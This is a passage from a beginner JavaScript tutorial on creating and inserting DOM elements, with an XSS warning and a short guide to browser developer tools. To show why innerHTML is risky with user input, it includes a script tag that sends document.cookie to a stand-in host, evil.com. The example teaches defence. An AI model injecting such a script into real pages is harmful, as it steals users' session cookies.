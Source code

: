 **Creating elements:**

```javascript
const div = document.createElement("div");
div.className = "file-item";
div.textContent = "Some text";
```

**Adding to DOM:**

```javascript
container.appendChild(div); // Add as last child
container.insertBefore(div, ref); // Add before reference element
```

**Changing content:**

```javascript
el.textContent = "Plain text"; // Sets text (safe, can't inject HTML)
el.innerHTML = "<b>HTML</b>"; // Sets HTML (dangerous if user input!)
```

**⚠️ Security Warning: XSS**

**NEVER do this with user input:**

```javascript
// DANGEROUS!
el.innerHTML = userInput;
```

**Why?** User could input:

```html
<script>
  fetch("https://evil.com/steal?data=" + document.cookie);
</script>
```

**Safe alternative:**

```javascript
el.textContent = userInput; // Treats everything as plain text
```

---

## 2.6: Test the Complete Stack

### Open Browser Developer Tools

**Chrome/Edge:** Press `F12` or `Ctrl+Shift+I` (Windows) / `Cmd+Opt+I` (Mac)  
**Firefox:** Press `F12`

**The tabs you'll use:**

- **Elements/Inspector** - View and edit DOM
- **Console** - See `console.log()` output and errors
- **Network** - See HTTP requests
- **Sources** - Debug JavaScript
